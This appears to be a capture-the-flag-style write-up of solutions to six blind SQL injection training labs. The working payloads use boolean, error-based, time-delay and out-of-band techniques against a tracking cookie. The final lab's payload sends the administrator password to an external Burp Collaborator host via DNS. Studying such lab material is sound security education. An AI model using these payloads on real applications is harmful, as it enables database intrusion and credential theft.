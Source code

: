 # Blind SQL injection vulnerabilities

## Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=d3KGutgKOMjnh4xT
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'd3KGutgKOMjnh4xT'
```

Solution:

```SQL
xyz' OR '1'='1
xyz' OR '1'='2
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 19--
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 20--
' UNION SELECT username FROM users WHERE username = 'administrator' AND SUBSTRING(password, §§, 1) > '§§'--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+username+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTRING(password,+§§,+1)+>+'§§'--
```

## Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=CFO6j85RorXzU17G
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'CFO6j85RorXzU17G'
```

Solution:

```SQL
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 19) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN TO_CHAR(1/0) ELSE NULL END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users--
```

## Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Target cookie request header:

```
Cookie: TrackingId=GozlT53MXFfyOacv
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'GozlT53MXFfyOacv'
```

Solution:

```SQL
' || PG_SLEEP(10)--
```

Modified cookie request header:

```
Cookie: TrackingId='+||+PG_SLEEP(10)--
```

## Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=t7j8rI6oMCaPTlEC
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 't7j8rI6oMCaPTlEC'
```

Solution:

```SQL
'%3B SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='%3B+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+PG_SLEEP(5)+ELSE+PG_SLEEP(0)+END+FROM+users--
```

## Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Target cookie request header:

```
Cookie: TrackingId=TGK463hgRPbVUYFr
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'TGK463hgRPbVUYFr'
```

Solution:

```SQL
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/"> %remote;]>'), '/l') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/">+%25remote%3B]>'),+'/l')+FROM+dual--
Cookie: TrackingId=7qoguswvlm7zqjsrl6rzd4zj56bcawvz
```

## Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=UvXJQOPrW2sZMTtQ
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'UvXJQOPrW2sZMTtQ'
```

Solution:

```SQL
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/a') FROM dual--
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/abc') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/">+%25remote%3B]>'),+'/abc')+FROM+dual--
```